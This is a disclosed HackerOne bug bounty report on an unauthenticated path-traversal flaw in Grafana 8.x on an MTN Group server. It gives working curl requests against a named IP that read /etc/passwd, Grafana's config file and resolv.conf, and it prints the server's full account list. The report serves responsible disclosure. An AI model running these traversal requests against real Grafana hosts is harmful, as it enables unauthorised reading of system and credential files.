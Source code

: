 # path traversal vulnerability in Grafana 8.x allows " local file read "

## Report Details
- **Report ID**: 1427086
- **URL**: https://hackerone.com/reports/1427086
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-14T18:23:58.945Z
- **Disclosed**: 2022-09-03T12:14:29.473Z

## Reporter
- **Username**: malagham
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
Hi team,
I've found a path traversal issue in the Grafana instances hosted on the MTN platforms. With the path traversal it's possible for an unauthenticated user to read arbitrary files on the server.
This IP " 41.242.91.22 " Domain Name " mtn.com.gn "  is for MTN Group 

{F1545670} {F1545682}

##Steps To Reproduce:
1. Open url address  :  http://41.242.91.22:3000/login

{F1545653}

2. File Read server for example /etc/passwd : 

Run the following command on the mac, linux terminal

```curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd```

Respons:

```
MacBook-Pro ~ % curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:998:996:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
colord:x:997:995:User for colord:/var/lib/colord:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
rtkit:x:172:172:RealtimeKit:/proc:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
gluster:x:995:992:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony:x:994:991::/var/lib/chrony:/sbin/nologin
unbound:x:993:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
geoclue:x:992:988:User for geoclue:/var/lib/geoclue:/sbin/nologin
setroubleshoot:x:991:987::/var/lib/setroubleshoot:/sbin/nologin
pulse:x:171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
saned:x:990:984:SANE scanner daemon user:/usr/share/sane:/sbin/nologin
gnome-initial-setup:x:989:983::/run/gnome-initial-setup/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
infraop:x:1000:1000:infraop:/home/infraop:/bin/bash
nginx:x:988:982:Nginx web server:/var/lib/nginx:/sbin/nologin
armand_k:x:1001:1001::/home/armand_k:/bin/bash
deploy:x:1002:1002::/home/deploy:/bin/bash
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
memcached:x:987:980:Memcached daemon:/run/memcached:/sbin/nologin
redis:x:986:979:Redis Database Server:/var/lib/redis:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
uwayo:x:1003:1003::/home/uwayo:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
mugabo:x:1004:1004::/home/mugabo:/bin/bash
nimble:x:985:978:user for Nimble Streamer:/etc/nimble:/sbin/nologin
arnold:x:1005:1005::/home/arnold:/bin/bash
as_ftp:x:1006:1006::/home/as_ftp:/bin/bash
toure:x:1007:1007::/home/toure:/bin/bash
mayur:x:1008:1008::/home/mayur:/bin/bash
prometheus:x:1009:1009::/home/prometheus:/bin/false
sd-agent:x:984:977:Server Density Agent User:/usr/bin/sd-agent/:/bin/bash
node_exporter:x:983:976::/home/node_exporter:/bin/false
grafana:x:982:975:grafana user:/usr/share/grafana:/sbin/nologin
egales:x:1010:1010::/home/egales:/bin/bash
```

3. File Read server  /usr/share/grafana/conf/defaults.ini  :

Grafana config file

```
curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fusr%2Fshare%2Fgrafana%2Fconf%2Fdefaults.ini
```

{F1545689}

3. File Read server  /etc/resolv.conf  :

```curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fresolv.conf```

```
MacBook-Pro ~ % curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fresolv.conf
# Generated by NetworkManager
nameserver 102.176.175.67
nameserver 102.176.175.93
```
Tanke you

## Impact

An unauthenticated user can get access to all system files if he knows the exact path of the file.

## Attachments
- Screenshot_2021-12-14_at_21.11.01.png
- Screenshot_2021-12-14_at_21.28.20.png
- Screenshot_2021-12-14_at_21.32.28.png
- Screenshot_2021-12-14_at_21.44.10.png
